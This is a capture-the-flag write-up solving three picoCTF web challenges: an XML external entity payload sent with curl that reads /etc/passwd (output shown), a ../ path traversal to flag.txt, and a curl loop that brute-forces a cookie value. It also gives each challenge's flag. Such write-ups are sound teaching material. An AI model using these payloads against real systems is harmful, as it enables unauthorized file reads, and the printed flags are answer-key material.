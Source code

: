 # SOAP
We get a webpage which looks quite normal upon initial inspection. Let's fire up burpsuite and take a closer look.
Nothing of particular interest were found in base webpage, we'll see how files are accessed since that'll be our primary step towards reading `/etc/passwd`.
![First POST request](../assets/contents/soap/1.png)
![Second POST request](../assets/contents/soap/2.png)
![Third POST request](../assets/contents/soap/3.png)

Interesting... Let's see if the XML access is properly sanitized
```bash
achu@air ~ % curl -X POST http://saturn.picoctf.net:61658/data \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE data [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <data>
    <ID>&xxe;</ID>
  </data>'
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
achu@air ~ % 
```
Could also use burpsuite interception and modified the request but got the flag anyway, `picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}`.


# Forbidden Paths
We'll we've got a website with a field to enter files.
![Website overview](../assets/contents/forbidden_paths/1.png)

Let's try the most obvious solution and enter `/flag.txt`
![Not authorized](../assets/contents/forbidden_paths/2.png)

Let's try giving a relative path which goes all the way back like `../../../../../../../../../../../flag.txt`
![The flag](../assets/contents/forbidden_paths/3.png)
We have our flag in the website body and it's `picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}`.
(That quite surprisingly worked, and we've got the flag... That was pleasantly easy!)


# cookies
The challenge name strongly hints at something related to cookies.
Apparently there's only one cookie set with the key `name` with value `-1`
![Cookies initially](../assets/contents/cookies/1.png)

We, change the value of the `name` cookie to some other value (say `0`), and we observe a change when refreshed (the form has the state of one which has already been submitted)
![Cookies after change](../assets/contents/cookies/2.png)

We keep trying values from `0` to however many until we get any new interesting value, we write a small bash script which uses `curl` to automate this process for us.
```bash
achu@air ~ % i=0; while true; do curl -sS -L -b "name=$i" http://mercury.picoctf.net:6418/ | grep 'font-size:30px'; i=$((i + 1)); done
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love oatmeal raisin cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love gingersnap cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love shortbread cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love peanut butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love whoopie pie cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love sugar cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love crinkle cookies!</b></p>
^C
achu@air ~ % 
```
`-sS` to suppress progress bar (`s`) but to propagate errors if they occur (`S`).
`-L` to follow HTTP redirects.
`-b` for setting cookie.
We pipe this to `grep` which searches for `font-size:30px` (because that's the only `p` container for that specific text size so we can narrow down to just one container with rudimentary tricks instead of proper HTML parsing).
We get the flag `picoCTF{3v3ry1_l0v3s_c00k135_88acab36}` on `name=18` iteration.
